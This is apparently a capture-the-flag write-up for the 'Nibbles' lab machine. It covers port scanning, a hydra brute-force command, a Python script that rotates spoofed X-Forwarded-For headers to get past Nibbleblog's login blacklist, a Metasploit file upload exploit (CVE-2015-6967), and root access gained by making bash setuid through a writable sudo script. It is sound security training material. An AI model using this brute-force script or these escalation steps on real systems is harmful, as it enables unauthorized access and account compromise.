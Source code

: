 # Nibbles - EASY Write-Up
---
## Initial Scanning
---
In order to begin working on the box, the first thing we must do is determine which ports are open on the target machine. For this task, I used the following nmap command: `nmap -sV -v 10.10.10.75`

This yielded us the following output:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-26 15:34 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 15:34
Scanning 10.10.10.75 [2 ports]
Completed Ping Scan at 15:34, 0.03s elapsed (1 total hosts)
Initiating Connect Scan at 15:34
Scanning nibbles.htb (10.10.10.75) [1000 ports]
Discovered open port 80/tcp on 10.10.10.75
Discovered open port 22/tcp on 10.10.10.75
Completed Connect Scan at 15:34, 0.44s elapsed (1000 total ports)
Initiating Service scan at 15:34
Scanning 2 services on nibbles.htb (10.10.10.75)
Completed Service scan at 15:34, 6.05s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.75.
Initiating NSE at 15:34
Completed NSE at 15:34, 0.11s elapsed
Initiating NSE at 15:34
Completed NSE at 15:34, 0.09s elapsed
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

As we can see in this output, the server appears to be running SSH and HTTP.

Upon navigating to the HTTP page in a browser, we just see a simple page displaying a hello world message:

![Nibbles Hello World Site](attachments/Pasted image 20220626154406.png)

## Discovering Nibbleblog
---
By inspecting the source, we can see that there is a special directory being served on the webserver:
![[Pasted image 20220626154526.png]]

In this directory, we find an empty blog page. We can see in the bottom right-hand corner of this page that the site is powered by "Nibbleblog":
![[Pasted image 20220626154809.png]]

## Idenitfying Potential Vulnerabilities in Nibbleblog
---
By looking up Nibbleblog, we can find that Nibbleblog is an open source CMS application that is no longer maintained. We can find the source code on the project's github: https://github.com/dignajar/nibbleblog

As the blog software is no longer maintained, we should check to see if the server is running a vulnerable version. I was not able to determine a version number for the version of Nibbleblog running on the target. However, we can run searchsploit to verify whether or not publicly known vulnerabilities exist for Nibbleblog. We find that there is an arbitrary file upload vulnerability in version 4.0.3:
![[Pasted image 20220626155739.png]]

The specific vulnerability identified is CVE-2015-6967, and the seachsploit payload found above corresponds to this exploit: https://www.exploit-db.com/exploits/38489

We can tell by looking at the exploit available for metasploit that the file upload vulnerability is authenticated, so we will need a username and password:
![[Pasted image 20220626160102.png]]

## Bruteforcing the Nibbleblog login
---
Upon researching Nibbleblog, I was not able to determine if there are any default credentials available for Nibbleblog. Because of this lack of default credentials, I decided to attempt to bruteforce the nibbleblog login. By lookign through the github repository, we can see that there is an admin.php file, which contains a login page:
![[Pasted image 20220626165446.png]]

As we can see in the above screenshot, we get an error message upon failing to login that reads "Incorrect username or password."

In order to attempt to bruteforce the login page, we can use the following hydra command: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."`

Hydra tells us that there were several valid passwords found for the admin user (where the existence of the admin user is just a guess):
![[Pasted image 20220626170039.png]]

Unfortunately, none of these passwords turn out to be actual valid passwords, but rather hydra is finding false positives because there is some kind of IP lockout in place in the web application:
![[Pasted image 20220626170142.png]]

Looking into the Nibbleblog source code on github, we find that the blacklisting is implemented in Nibbleblog itself in the db_users.php file. Specifically, we find that the blacklisting is implemented by ignoring requests sent by the same IP that have failed in rapid succession. After a few minutes, the blacklist then resets and allows additional login attempts:
![[Pasted image 20220626170541.png]]

If we look into the logic that determines the user's ip address, we can see that the application trusts the X-Forwarded-For header before it trusts the originating IP in determining the valid IP address. This means that we can spoof our IP address to get past the IP blacklisting and allow us to bruteforce the login panel at full speed:
![[Pasted image 20220626170819.png]]

In order to bruteforce the password for the admin user (still assuming that this user exists, but we could try a userlist next), we can use the following script:
```python
import requests

class ip_iterator():
    def __init__(self):
        self.octets = [0,0,0,0]
        self.counter = 0

    def get_next_ip(self):
        if self.counter < 4:
            self.counter = self.counter+1
        else:
            self.counter = 0
            self.iterate_ip()
        return self.ip_string()

    def iterate_ip(self):
        for octet in  range(len(self.octets)):
            self.octets[octet] = self.octets[octet] + 1
            if self.octets[octet] > 254:
                self.octets[octet] = 0
            else:
                break

    def ip_string(self):
        return f"{self.octets[3]}.{self.octets[2]}.{self.octets[1]}.{self.octets[0]}"


target = "http://10.10.10.75/nibbleblog/admin.php"

passfilename = "/usr/share/wordlists/rockyou.txt"
passfile = open(passfilename, 'r')

password = passfile.readline()

ipctr = ip_iterator()

while password:
    params = {"username":"admin","password":password.strip()}
    headers = {"X-Forwarded-For":ipctr.get_next_ip(),"Content-Type":"application/x-www-form-urlencoded"}
    response = requests.post(url=target, data=params, headers=headers)
    if "Nibbleblog security error - Blacklist protection" in response.text:
        print("Blacklist Detected")
        break
    if "Incorrect username or password" not in response.text:
        print("Valid password:", password)
        break
    password = passfile.readline()
passfile.close()

```

After running the bruteforce script on the admin user, we find the credentials admin:nibbles for the CMS:
![[Pasted image 20220626185954.png]]

We can verify that we have the correct username and password by logging into the admin panel:
![[Pasted image 20220626190400.png]]

Since, the password for the CMS is "nibbles", it is likely that the box creator intended for us to guess that the name of the box (or the name of the blog within the box) was the password, rather than find a way to bruteforce it. This is likely an attempt to simulate using a company name as a password.

## Gaining Remote Code Execution using CVE-2015-6967
---
Now that we have the admin password, we can continue to test the previous potential vulnerability that we identified using the nibbleblog_file_upload metasploit module. We can test the application using the following options (and `set verbose true` issued to get additional output):
![[Pasted image 20220626190602.png]]

This payload is successful and we now have a meterpreter session on the box running as the nibbler user:
![[Pasted image 20220626191025.png]]

We can now read the user flag in /home/nibbler/user.txt:
![[Pasted image 20220626191212.png]]

## Privilege Escalation
---
By using the `sudo -l` command, we can see that the nibbler user has the ability to execute a specific bash script as root:
![[Pasted image 20220626191321.png]]

Since the file that can be run with sudo is located in nibbler's hoem directory, we have the privileges necessary to create it:
![[Pasted image 20220626191427.png]]

We can modify the bash file provided to change the permissions of the bash program on the machine to be setuid. This will allow us to spawn a root shell:
![[Pasted image 20220626191631.png]]

After running the newly created bash script with sudo, we can use `bash -p` to spawn a shell as root:
![[Pasted image 20220626191739.png]]



